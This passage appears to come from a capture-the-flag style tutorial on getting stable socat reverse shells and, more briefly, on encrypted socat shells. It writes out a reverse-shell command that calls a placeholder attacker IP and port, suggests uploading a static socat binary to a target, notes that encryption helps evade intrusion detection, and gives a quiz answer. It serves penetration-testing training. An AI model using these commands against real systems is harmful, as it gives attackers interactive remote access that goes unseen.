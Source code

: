 The first listener can be connected to with any payload; however, this special listener must be activated with a very specific socat command. This means that the target must have socat installed. Most machines do not have socat installed by default, however, it's possible to upload a [precompiled socat binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true), which can then be executed as normal.

The special command is as follows: `socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

This is a handful, so let's break it down.

The first part is easy -- we're linking up with the listener running on our own machine. The second part of the command creates an interactive bash session with  `EXEC:"bash -li"`. We're also passing the arguments: pty, stderr, sigint, setsid and sane:

* pty, allocates a pseudoterminal on the target -- part of the stabilisation process
* stderr, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
* sigint, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
* setsid, creates the process in a new session
* sane, stabilises the terminal, attempting to "normalise" it.

That's a lot to take in, so let's see it in action.

As normal, on the left we have a listener running on our local attacking machine, on the right we have a simulation of a compromised target, running with a non-interactive shell. Using the non-interactive netcat shell, we execute the special socat command, and receive a fully interactive bash shell on the socat listener to the left:

![](https://i.imgur.com/etAuYzz.png)

Note that the socat shell is fully interactive, allowing us to use interactive commands such as SSH. This can then be further improved by setting the stty values as seen in the previous task, which will let us use text editors such as Vim or Nano.

If, at any point, a socat shell is not working correctly, it's well worth increasing the verbosity by adding `-d -d` into the command. This is very useful for experimental purposes, but is not usually necessary for general use.

1. How would we get socat to listen on TCP port 8080?

`tcp-l:8080`

## Task 7 Socat Encrypted Shells

One of the many great things about socat is that it's capable of creating encrypted shells -- both bind and reverse. Why would we want to do this? Encrypted shells cannot be spied on unless you have the decryption key, and are often able to bypass an IDS as a result.

We covered how to create basic shells in the previous task, so that syntax will not be covered again here. Suffice to say that any time `TCP` was used as part of a command, this should be replaced with `OPENSSL` when working with encrypted shells. We'll cover a few examples at the end of the task, but first let's talk about certificates.

We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine:
